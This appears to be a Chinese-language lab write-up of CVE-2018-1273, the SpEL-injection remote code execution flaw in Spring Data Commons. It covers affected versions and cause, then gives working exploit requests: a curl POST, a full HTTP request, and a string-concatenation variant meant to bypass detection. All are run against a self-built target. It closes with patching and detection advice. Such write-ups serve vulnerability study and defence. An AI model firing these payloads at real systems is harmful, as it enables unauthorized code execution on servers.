







# 命令执行\_spring_CVE-2018-1273_Spring_Data_Commons 远程命令执行漏洞（利用方式二可绕过）

## <!-- more -->

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](https://www.cnnvd.org.cn/home/globalSearch?keyword=CNNVD-201804-564)
>
> [NVD (nist.gov)](https://nvd.nist.gov/vuln/detail/CVE-2018-1273)

---

**Spring Data**是一个用于简化数据库访问，并支持云服务的开源框架，其主要目标是使数据库的访问变得方便快捷。**Spring Data Commons**是 Spring Data 下所有子项目共享的基础框架。

Spring Data 是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons 是 Spring Data 下所有子项目共享的基础框架。Spring Data Commons 在 2.0.5 及以前版本中，组件中存在远程代码执行漏洞，攻击者可构造包含有恶意代码的 SPEL 表达式实现远程代码攻击，直接获取服务器控制权限。

---

### 漏洞危害

未经身份验证的远程恶意用户（或攻击者）可以针对 Spring Data REST 支持的 HTTP 资源提供特制的请求参数，或者使用 Spring Data 的基于投影的请求有效负载绑定可能导致远程执行代码攻击。

---

### 影响范围

- Spring Data Commons 1.13 to 1.13.10 (Ingalls SR10)
- Spring Data REST 2.6 to 2.6.10 (Ingalls SR10)
- Spring Data Commons 2.0 to 2.0.5 (Kay SR5)
- Spring Data REST 3.0 to 3.0.5 (Kay SR5)
- Older unsupported versions are also affected

---

## 漏洞原理

Spring Data Commons（1.13 至 1.13.10 之前的版本，2.0 至 2.0.5 的版本以及较旧的不受支持的版本）包含由于特殊元素的不正确中和而导致的属性绑定器漏洞。未经身份验证的远程恶意用户（或攻击者）可以针对 Spring Data REST 支持的 HTTP 资源提供特制的请求参数，或者使用 Spring Data 的基于投影的请求有效负载绑定可能导致远程执行代码攻击。

---

### 源码分析

Spring 在自动解析用户的参数的时候采用了 SpelExpressionParser 来解析 propertyName，但是并没有对参数进行进行有效的校验，



---

## 漏洞利用

---

### 靶机环境

自建环境，见文件夹内的.jar 文件

---

### 利用方式 1

---

#### 利用思路

利用 this.getClass().forName("java.lang.Runtime").getRuntime().exec()函数构造 payload 进行代码执行漏洞利用

---

#### 漏洞利用

1）访问 http://ip:8080/account



2. 发送 payload：这里尝试了两种方法，建议采用第二种。

- 方法一：firefox 浏览器 F12 打开，选择 network，点击 reload 后得到请求包，再点击 resend 即可在浏览器上直接修改请求。如下



构造攻击数据，修改为 POST 请求，payload 部分填写如下：

```
[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch aa.txt")]
```

- 方法二：执行命令

```
curl -X POST http://192.168.1.189:8080/account -d "name[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('touch aa.txt')]=123"
```



3）攻击成功，结果如下：



### 利用方式 2(绕过)

---

#### 利用思路

修改 payload 为如下形式：

```
name[#this.getClass().forName('ja'+'va.l'+'ang.Run'+'time').getRuntime().exec('touch test22.txt')]=123
```

将原本的 payload 利用+拼接。

---

#### 漏洞利用

使用 hackbar 插件，发送如下，



这里选择 hackbar 的原因是编码方式的问题，若使用 burpsuite，请求包如下：

```
POST /account HTTP/1.1
Host: 192.168.1.189:8080
Connection: keep-alive
Content-Length: 150
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.189:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.189:8080/account
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

name%5B%23this.getClass%28%29.forName%28%27ja%27%2B%27va.l%27%2B%27ang.Run%27%2B%27time%27%29.getRuntime%28%29.exec%28%27touch+test22.txt%27%29%5D=123
```

攻击成功，结果如下：



---

## 威胁防护建议

---

### 用户处置建议

升级框架到最新版本。将 Spring Data Commons 框架的版本由 2.0.x 升级到 2.0.6，1.13.x 的用户升级到 1.13.11。

---

### 产品检测建议

可针对[#this.getClass().forName('java.lang.Runtime').getRuntime().exec()的命令及其拼接的形式进行检测。

---

# 附录

## 靶场搭建方法

代码下载：https://github.com/wearearima/poc-cve-2018-1273

编译后打成 jar 包（见 poc 文件夹）

```
cd ./poc
java -jar poc-cve-2018-1273-0.0.1-SNAPSHOT.jar
```
